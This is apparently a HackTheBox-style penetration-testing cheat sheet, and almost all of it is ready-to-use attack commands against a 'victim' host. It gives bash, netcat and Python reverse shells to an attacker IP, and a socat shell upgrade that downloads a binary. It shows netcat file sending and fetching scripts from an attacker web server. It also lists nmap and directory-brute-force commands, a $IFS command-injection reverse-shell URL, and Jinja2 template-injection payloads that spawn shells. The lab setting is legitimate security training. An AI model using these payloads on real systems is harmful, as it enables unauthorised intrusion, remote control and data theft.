 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://github.com/Pash3nlee/HackTheBox/raw/main/images/cat.PNG)

# Useful Commands

## Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

## Reverse shells [:octocat:](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### With python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

### VHOST Discovery

* #### FuFF

```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://schooled.htb/ -H "Host:FUZZ.schooled.htb" -fw 5338
```

### CSRF

Check CSRF

```
<a href="http://10.10.10.10:4444">MyURL</a>
```

Reverse shell

```
http://10.10.10.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.10.10'$IFS'4444')
```

### SSTI [:octocat:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

![](https://gblobscdn.gitbook.com/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M7O4Hp6bOFFkge_yq4G%2F-M7OCvxwZCiaP8Whx2fi%2Fimage.png?alt=media&token=4b40cf58-5561-4925-bc86-1d4689ca53d1)

* #### Check Jinja2

```
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Reverse shell

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'").read()}}{%endif%}{%endfor%}
```

```
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"').read()}}
```

* #### Check Twig

```
{{7*'7'}} would result in 49
{{dump(app)}}
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
